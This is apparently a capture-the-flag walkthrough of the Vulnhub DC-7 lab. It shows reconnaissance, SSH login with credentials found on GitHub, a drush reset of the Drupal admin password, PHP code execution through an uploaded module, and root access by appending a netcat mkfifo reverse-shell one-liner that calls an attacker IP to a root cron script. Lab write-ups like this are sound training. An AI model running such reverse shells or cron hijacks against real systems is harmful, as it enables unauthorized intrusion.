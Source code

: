```yaml
---
title:     "Vulnhub - DC 7"
tags: [medium,drupal,cron]
---
```


Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description:
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : <https://www.vulnhub.com/entry/dc-7,356/>

Lets Begin with our Initial Scan

## Nmap Scan Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username<br/>

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

While checking the repo found some credentials.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

We successfully logged in with new password ``admin:admin``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/10.png)

I found this 
>https://www.drupal.org/project/php

I clicked on the Install new module button and uploaded this!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/13.png)


## Privilege Escalation:

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/14.png)

Wait for sometime because cron is running!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc7/15.png)

We got Root !!












